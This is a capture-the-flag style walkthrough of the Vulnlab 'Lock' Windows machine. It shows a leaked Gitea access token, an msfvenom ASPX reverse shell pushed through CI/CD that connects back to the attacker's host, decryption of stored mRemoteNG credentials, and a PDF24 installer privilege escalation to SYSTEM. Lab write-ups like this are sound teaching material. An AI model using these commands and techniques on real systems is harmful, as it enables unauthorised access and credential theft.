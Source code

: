 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Lock/logo.png
date: 2024-06-23 09:45:47 +07:00
modified: 2024-06-23 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: kozmer
  link: https://app.hackthebox.com/users/637320
tags: [Lock, Gitea, access token, repository, reverse shell, privilege escalation, mRemoteNG, mRemoteNG decryptor, PDF24, MSI installer, Windows, shell access, CI/CD integration]
title: Lock - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro is an **easy** difficulty machine where enumeration revealed a static website on port 80 and a Gitea instance on port 3000. Exploring Gitea, a repository by ellen.freeman contained a script with an exposed access token, leading to the cloning of a hidden "website" repository with CI/CD integration. A reverse shell was injected and executed, gaining access as ellen.freeman. In her Documents, a config file for mRemoteNG with encrypted credentials was found and decrypted, allowing access to Gale's account. A local privilege escalation vulnerability in PDF24 was exploited, ultimately obtaining a SYSTEM-level shell and the root flag.

# Enumeration

```
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
3000/tcp open  ppp
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
```

I started by looking at port 80 with some directory brute-forcing by nothing interesting. It seems like it's a static website.

![](https://photos.squarezero.dev/file/abir-images/Lock/0.png)

Next, I visited port 3000 and It was running Gitea.

![](https://photos.squarezero.dev/file/abir-images/Lock/1.png)

I explored the Gitea instance and found **dev-scripts** repo by **ellen.freeman** and it looks like it's a script for accessing Gitea with the access token.

![](https://photos.squarezero.dev/file/abir-images/Lock/2.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/3.png)

After that, I checked the previous commits and found an exposed access token of **ellen.freeman**.

![](https://photos.squarezero.dev/file/abir-images/Lock/4.png)

# Shell as Ellen Freeman

I downloaded the script and after running it, it showed another hidden repository called **website**.

![](https://photos.squarezero.dev/file/abir-images/Lock/5.png)

After researching for a bit I found out that I can clone a repository using an access token.

`git clone http://ellen.freeman:<REDACTED>@lock.vl:3000/ellen.freeman/website.git`

![](https://photos.squarezero.dev/file/abir-images/Lock/6.png)

Inside the repository, there was a README.md where it stated that the git repo would be automatically deployed after. And after looking at the repo carefully it seems like its the website hosted on port 80.

```
# New Project Website

CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
```

![](https://photos.squarezero.dev/file/abir-images/Lock/7.png)

I created a reverse shell and used git to push the shell into the main website.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.2.110 LPORT=4444 -f aspx -o shell.aspx`

```bash
#Add username and email
git config --global user.name ellen.freeman
git config --global user.email ellen.freeman@lock.vl

#Stage the shell
git add shell.aspx 

#Commit with a message
git commit -m 'shell'

#Update the repo
git push
```

I made a request with curl and got a reverse shell.

`curl http://lock.vl/shell.aspx`

![](https://photos.squarezero.dev/file/abir-images/Lock/8.png)

# Ellen.freeman to Gale.dekarios

Inside Ellen's Document folder, there was a config file.

```
C:\USERS\ELLEN.FREEMAN        
|   .git-credentials
|   .gitconfig
|   
+---.ssh      
|       authorized_keys       
|   
+---3D Objects
+---Contacts  
+---Desktop   
+---Documents 
|       config.xml  
|   
+---Downloads 
+---Favorites 
|   |   Bing.url    
|   |         
|   \---Links 
+---Links     
|       Desktop.lnk 
|       Downloads.lnk         
|   
+---Music     
+---Pictures  
+---Saved Games     
+---Searches  
\---Videos
```

The config file is for ***mRemoteNG*** which contains an encrypted password for the user.

![](https://photos.squarezero.dev/file/abir-images/Lock/9.png)


I used ***mremoteng-decryptor*** to decrypt the config file and found credential for remote access. And after logging in I got the user flag.

![](https://photos.squarezero.dev/file/abir-images/Lock/10.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/11.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/12.png)

# Gale.dekarios to root

On the desktop, I saw PDF24 and after looking online I found a local Privilege escalation for it.

[Local Privilege Escalation via MSI installer in PDF24](https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/)

![](https://photos.squarezero.dev/file/abir-images/Lock/13.png)

After looking in the hidden folders I found ***_install folder*** which contains the installer for PDF24.

![](https://photos.squarezero.dev/file/abir-images/Lock/14.png)

![](https://photos.squarezero.dev/file/abir-images/Lock/15.png)

Next, I opened 2 terminals and in one of them I set the oplock on the PDF24 log file and after that in another terminal, I executed the installer with MSI just like it's said in the article.

`msiexec.exe /fa pdf24-creator-11.15.1-x64.msi`

`.\SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r`

![](https://photos.squarezero.dev/file/abir-images/Lock/16.png)

After waiting for a little bit a new CMD window opened and I followed alone the article to spawn a cmd shell as an administrator within the legacy console mode.

* Right-click on the top bar of the cmd window.
* click on properties.
* under options click on the “legacy console mode” link.
* open the link with a browser other than Internet Explorer or Edge (both don't open as SYSTEM when on Win11).
* in the opened browser window press the key combination CTRL+o.
* type “cmd.exe” in the top bar and press Enter.

![click on the properties](https://photos.squarezero.dev/file/abir-images/Lock/17.png)


![legacy console mode](https://photos.squarezero.dev/file/abir-images/Lock/18.png)


![Click Internet Explorer or Edge](https://photos.squarezero.dev/file/abir-images/Lock/19.png)


![Press the key combination CTRL+o](https://photos.squarezero.dev/file/abir-images/Lock/20.png)


![Type “cmd.exe” in the top bar and press Enter](https://photos.squarezero.dev/file/abir-images/Lock/21.png)

Now with the administrator shell, I got the root flag.